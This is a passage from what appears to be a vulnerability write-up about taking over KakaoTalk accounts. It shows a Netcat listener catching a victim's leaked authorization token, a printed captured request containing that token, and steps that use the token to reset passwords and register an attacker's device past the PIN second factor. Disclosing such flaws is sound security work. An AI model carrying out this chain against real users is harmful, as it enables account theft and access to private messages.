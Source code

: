 ... starts the HTTP server and ...

```bash
$ python3 -m http.server 8888
```

... opens a Netcat listener in another terminal window: `$ nc -l 5555`. Easy ;-)

### Victim clicks the link and leaks an access token to the attacker

Next, the attacker sends a URL (e.g., `http://192.168.178.20:8888/foo.html`) and waits until the victim clicks it. The access token should be then leaked in the Netcat listener:

```bash
GET /foo.html HTTP/1.1
Host: 192.168.178.20:5555
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; M2004J19C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.66 Mobile Safari/537.36;KAKAOTALK 2610420;KAKAOTALK 10.4.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
os_name: Android
kakao-buy-version: 1.0
os_version: 10.4.2
X-Requested-With: com.kakao.talk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

### Attacker uses the access token to reset the victim's password

Next, the attacker can now reset her/his KakaoTalk password (see instructions [above](#kakaotalk-password-reset-with-burp)).

### Attacker registers her/his device the victim's KakaoTalk account

When logging into KakaoTalk for Windows/MacOS or KiwiTalk with the victim's credentials a second authentication factor is required. It's a simple 4-digit pin which is either displayed in the PC version and needs to be entered in the KakaoTalk mobile app or the other way around (i.e., pin is sent to mobile app and needs to be entered in PC app).

Unfortunately, the pin can't be brute-forced as there's some rate limiting going on at the endpoints `https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize` and `https://katalk.kakao.com/win32/account/register_device.json` (blocked after 5 attempts).

Luckily, we can still use the gathered access token to post/get the pin number to/from the KakaoTalk backend:
